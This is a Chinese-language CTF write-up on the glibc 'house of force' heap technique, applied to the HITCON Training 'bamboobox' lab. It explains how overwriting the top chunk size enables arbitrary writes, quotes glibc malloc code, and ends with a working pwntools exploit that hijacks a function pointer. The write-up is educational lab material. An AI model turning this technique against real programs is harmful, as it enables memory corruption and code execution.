



# 2018-12-17-HITCON Traning lab11 bamboobox - house of force

[TOC]

## 0x01 house of force 原理

如果可以修改top chunk的 size，计算好想写的地方，如bss或者libc中的malloc_hook，计算size。malloc(size)就可以修改main_arena.top，下次malloc就可以arbitrary write。利用过程：

1. overwrite top chunk size (can be -1)
2. calc the size
3. malloc(size) (change top chunk size)
4. malloc() arbitrary write

size为无符号整数，溢出修改top chunk的size为-1，因此下次malloc的size就可以不受限制，可以为一个很大的值。

malloc(size)时，checksize(size)检查size是否REQUEST_OUT_OF_RANGE，之后+8（SIZE_SZ）对齐0x10，就是libc中的nb。举例说明：

- 假设要写的地址是0x602020，因此malloc的chunk在0x602020-0x10。top的地址在0x602020，因此offset是-4112。-4112 = size+8 对齐0x10，因此size可以为-4120。
- 假设要写的地址是&malloc_hook 0x7ffff7dd1b00，因此malloc的chunk在&malloc_hook-0x10 0x7ffff7dd1af0。top的地址在0x602020，offset = 0x7ffff7dd1af0-0x602020。offset = size+8对齐0x10，size 可以为 offset-0x8。

注意：offset如果不是对齐的，需要多减一些，**当然，我们最好使得分配之后得到的 chunk 也是对齐的，因为在释放一个 chunk 的时候，会进行对齐检查。** 暂时不理解，先记录。

代码：

```c
    use_top:
      /*
         If large enough, split off the chunk bordering the end of memory
         (held in av->top). Note that this is in accord with the best-fit
         search rule.  In effect, av->top is treated as larger (and thus
         less well fitting) than any other available chunk since it can
         be extended to be as large as necessary (up to system
         limitations).

         We require that av->top always exists (i.e., has size >=
         MINSIZE) after initialization, so if it would otherwise be
         exhausted by current request, it is replenished. (The main
         reason for ensuring it exists is that we may need MINSIZE space
         to put in fenceposts in sysmalloc.)
       */

      victim = av->top;
      size = chunksize (victim);

      if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
        {                                        
          remainder_size = size - nb;
          remainder = chunk_at_offset (victim, nb);
          av->top = remainder;
          set_head (victim, nb | PREV_INUSE |
                    (av != &main_arena ? NON_MAIN_ARENA : 0));
          set_head (remainder, remainder_size | PREV_INUSE);

          check_malloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
```

size的计算

```c
/*
   Check if a request is so large that it would wrap around zero when
   padded and aligned. To simplify some other code, the bound is made
   low enough so that adding MINSIZE will also not wrap around zero.
 */

#define REQUEST_OUT_OF_RANGE(req)                                 \
  ((unsigned long) (req) >=						      \
   (unsigned long) (INTERNAL_SIZE_T) (-2 * MINSIZE))

/* pad request bytes into a usable size -- internal version */

#define request2size(req)                                         \
  (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)  ?             \
   MINSIZE :                                                      \
   ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)

/*  Same, except also perform argument check */

#define checked_request2size(req, sz)                             \
  if (REQUEST_OUT_OF_RANGE (req)) {					      \
      __set_errno (ENOMEM);						      \
      return 0;								      \
    }									      \
  (sz) = request2size (req);
```


## 0x02 HITCON-TRANING 11 - bamboobox

程序开辟了0x10的堆空间存放两个函数指针，在开始和结束时调用打印相关信息。此外，提供了4个功能，show add change remove。其中，add中输入read 8byte的size，atoi转化后调用malloc申请内存，指针保存在bss。堆溢出！



利用思路：堆溢出修改top chunk size，再次malloc  hjack main_arena.top，继续malloc就可以任意地址写。由于size是8byte，因此只能向低地址的bss写，劫持函数指针到程序提供号的magic函数就可以get flag。

成功修改top chunk如下所示，注意此时存在问题！由于offset过小，导致了修改之后的top chunk的SIZE过小，因此malloc时就走sys_malloc了。解决的办法也很简单，malloc一个大一点的chunk，top和堆基指之间的offset就变大了。



```bash
[DEBUG] Received 0xde bytes:
    "bamboobox: malloc.c:2394: sysmalloc: Assertion `(old_top == initial_top (av) && old_size == 0) || ((unsigned long) (old_size) >= MINSIZE && prev_inuse (old_top) && ((unsigned long) old_end & (pagesize - 1)) == 0)' failed.\n"
bamboobox: malloc.c:2394: sysmalloc: Assertion `(old_top == initial_top (av) && old_size == 0) || ((unsigned long) (old_size) >= MINSIZE && prev_inuse (old_top) && ((unsigned long) old_end & (pagesize - 1)) == 0)' failed.
```

此外，写exp时还遇到了一个问题：wrapper程序功能函数时我一开	始直接粘贴的hitcon官方的WP，WP中输入choice用recvuntil(":")，加上read操作的长度问题，所以会导致交互时可能出现问题。

exploit：

```python
def pwn(io):
    additem(0x50, 'thinkycx')
    if local&debug: gdb.attach(io,'set $item=0x00000000006020C8 \n break *show_item \n break *0x0000000000400E42')
    
    log.info("1. overflow")
    payload_overflow = 0x50*'a' + p64(0) + p64(0xffffffffffffffff)
    modify(0, 0x60, payload_overflow) ## should large
    
    log.info("2. malloc size")
    offset = (0x603010 - 0x10)-0x603080
    size = offset - 0x8 

    additem(size, "thinkycx") # cannot write into heap content because of size < 0

    log.info("3. malloc 0x10")
    payload_write = '11111111' + p64(elf.symbols['magic'])
    additem(0x20, payload_write) # write
    # print io.recv()

    io.sendlineafter("Your choice:","5")
```

